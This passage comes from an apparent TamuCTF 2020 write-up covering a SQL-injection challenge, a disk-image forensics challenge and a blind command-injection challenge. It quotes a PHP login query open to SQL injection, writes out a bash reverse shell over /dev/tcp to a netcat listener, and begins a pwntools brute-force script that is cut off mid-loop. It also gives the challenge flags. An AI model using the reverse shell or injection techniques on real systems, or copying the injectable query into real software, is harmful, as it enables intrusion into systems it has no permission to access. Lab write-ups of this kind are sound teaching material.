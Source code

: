 ```python
```

Go take a coffe and wait for your flag ;)

PS: Strangely our exploit worked even if logically it should have failed as from seeing the docker configuration after the CTF ended we saw that the flag was in a custom table *db.accounts* and not in *mysql.user*. Seeing *login.php* also gave us no clue as it uses :

```php
$sql = "SELECT * FROM accounts WHERE username='$login_user' AND password='$login_pass'";
```

![passmystery](/assets/img/TamuCTF_2020/passextraction_3.gif)

🏁 __gigem{h0peYouScr1ptedTh1s}__{:.spoiler}

# Misc

## alCapone

> [...] he got the disk image of the computer [...] Can you help Ness out and find any information to take down the mob boss?
> (hint: [...] he deleted all important data [...])

Extract the image from the .xz archive, then simply grep from strings.

```bash
xzdec -d WindowsXP.img.xz | strings | grep "gigem{"
```

🏁 __gigem{Ch4Nn3l_1nN3r_3Li0t_N3$$}__{:.spoiler}

## blind

> nc challenges.tamuctf.com 3424

After connecting to the socket, writing something returns a number.
From the numbers (0-OK, 1-ERR, 127-NOT_FOUND) we can guess it executes the command within a shell and retuns the status code.

First, set up a listener `nc -lvp 1337`.

`nc` isn't installed on the server since it returns the status code 127, but we can also open a reverse shell with:

```bash
/bin/bash -i > /dev/tcp/<our ip>/1337 0<&1 2>&1
```

🏁 __gigem{r3v3r53_5h3ll5}__{:.spoiler}

### Alternative method

In case the reverse shell didn't work, one could have bruteforced every char using ifs.

```python
from pwn import *
import string

conn = remote('challenges.tamuctf.com', 3424)

fmt = '[ $(head flag.txt -c {}) == "{}" ]'
chars = 6
flag = "gigem{"

while True:
    chars += 1
    for c in string.ascii_lowercase + string.digits + string.ascii_uppercase + '_}{':
        print flag+c
```